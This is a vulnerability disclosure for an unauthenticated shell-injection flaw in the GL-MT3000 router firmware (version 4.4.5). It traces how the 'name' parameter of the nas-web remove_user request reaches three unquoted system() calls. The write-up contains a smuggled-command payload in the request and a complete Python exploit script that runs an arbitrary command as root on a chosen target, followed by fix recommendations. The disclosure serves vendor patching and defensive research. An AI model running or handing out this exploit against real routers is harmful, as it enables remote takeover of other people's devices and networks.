


# 漏洞：nas-web.remove_user name 多处未引号 shell 注入 RCE

Submission Date: 2026.5.12
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `nas-web.so` plugin forwards the `remove_user` JSON request to the local `gl_nas_sys` root daemon via `/NAS_API_REMOVE_USER` (route 0x64). The handler `FUN_0043db10` → `FUN_0043a640` extracts the `name` parameter and passes it to `FUN_0042dfe0`, which calls three shell command sinks. All three commands place `name` in **unquoted** argument position with no shell metacharacter filtering: `deluser %s`, `userdel -r -f %s`, and `smbpasswd -x %s`. An attacker can directly inject `;cmd;#` without requiring any quote escape.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"nas-web", "method":"remove_user",
      "args":{"name":"p26rm;id>/tmp/poc;#"}}

  -> /www/cgi-bin/glc
       dlopen("nas-web.so") → dlsym("remove_user") → handler(args)
       // NO authentication

  -> nas-web.so::remove_user (0x55e0)
       json_dumps(args) → serialized as-is
       curl_post_manage_post(127.0.0.1, <port>,
           "/NAS_API_REMOVE_USER", json_str)

  -> gl_nas_sys: URI → route 0x64
       FUN_00440190 case 100 (0x64): FUN_0043db10(srv, con, p_d)
         → FUN_0043a640(srv, con, p_d)
              FUN_004373f0(con, "name", &name_buf)
              // name = "p26rm;id>/tmp/poc;#"
              → FUN_0042dfe0(name)

  -> FUN_0042dfe0("p26rm;id>/tmp/poc;#"):
       FUN_0042d420(name)     // 💣 Sink 1+2
       FUN_0042d550(name)     // 💣 Sink 3

  -> /bin/sh -c:
       deluser p26rm;id>/tmp/poc;#        // ❌ no quoting
       userdel -r -f p26rm;id>/tmp/poc;#  // ❌ no quoting
       smbpasswd -x p26rm;id>/tmp/poc;#   // ❌ no quoting
```



The gl_nas_sys route dispatcher maps /NAS_API_REMOVE_USER to case 0x64:

```c
// FUN_00440190 — route dispatcher
case 100:   // 0x64 → /NAS_API_REMOVE_USER
    return FUN_0043db10(srv, con, p_d);
```


The HTTP handler FUN_0043db10 delegates to FUN_0043a640:

```c
// FUN_0043db10 — REMOVE_USER entry (case 0x64)
FUN_0043a640(srv, con);
```

FUN_0043a640 extracts `name` and calls the remove flow:

```c
// FUN_0043a640 — extract "name" and call remove
FUN_004373f0(con, "name", &name_buf);  // extract "name" from HTTP
FUN_0042dfe0(name);                     // → remove user flow
```


FUN_0042dfe0 — the remove user orchestrator, calls three sinks with the raw name:

```c
// FUN_0042dfe0 — remove user entry point
FUN_0042db20(...);       // delete from internal list
FUN_0042d420(name);      // 💣 deluser + userdel
FUN_0042d550(name);      // 💣 smbpasswd -x
```

**Sink 1+2: FUN_0042d420 — `deluser %s` and `userdel -r -f %s` (0x80-byte buffers)**

```c
// FUN_0042d420(name) @ 0x42d494 + 0x42d4c0
snprintf(cmd, 0x80, "deluser %s", name);          // NO quoting
system(cmd);                                       // 💣

snprintf(cmd, 0x80, "userdel -r -f %s", name);    // NO quoting
system(cmd);                                       // 💣
```

**Sink 3: FUN_0042d550 — `smbpasswd -x %s` (0x80-byte buffer)**

```c
// FUN_0042d550(name) @ 0x42d5a4
snprintf(cmd, 0x80, "smbpasswd -x %s", name);     // NO quoting
system(cmd);                                       // 💣
```


Confirmed strings in the binary:

| Address | String |
|---------|--------|
| 0x476968 | `"deluser %s"` |
| 0x476978 | `"userdel -r -f %s"` |
| 0x4769a0 | `"smbpasswd -x %s"` |

The injection mechanism (no quoting needed):

```text
Normal:  name = "myuser"
         → deluser myuser
         ✅ legitimate operation

Exploit: name = "p26rm;id>/tmp/poc;#"
         → deluser p26rm
         → ;id>/tmp/poc;  ← 💣 RCE (executes 3 times)
         → #               ← comment
```

**No validation is bypassed:**
- No authentication at `/cgi-bin/glc`
- User existence NOT required — commands fail silently, injection still executes
- No password verification
- No character set restriction on name

The exploitation is shown below.



```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def call(method, args=None):
    req = urllib.request.Request(
        f"{TARGET}/cgi-bin/glc",
        data=json.dumps({"object":"nas-web","method":method,"args":args or {}}).encode(),
        headers={"Content-Type":"application/json"}, method="POST")
    return urllib.request.urlopen(req, timeout=10, context=ctx).read().decode(errors="replace")

call("set_nas_ser", {"enable": 1})
call("start")

# name goes into THREE unquoted system() calls
call("remove_user", {"name": f"p26rm;{CMD}>/tmp/poc26 2>&1;#"})

print("[+] done — check /tmp/poc26 on target")
```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `gl_nas_sys` FUN_0042d420 + FUN_0042d550 | Replace `system()` with `fork()`/`execv()` |
| P0 | `gl_nas_sys` FUN_0043a640 | Validate name: `^[A-Za-z0-9_][A-Za-z0-9_-]{0,31}$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
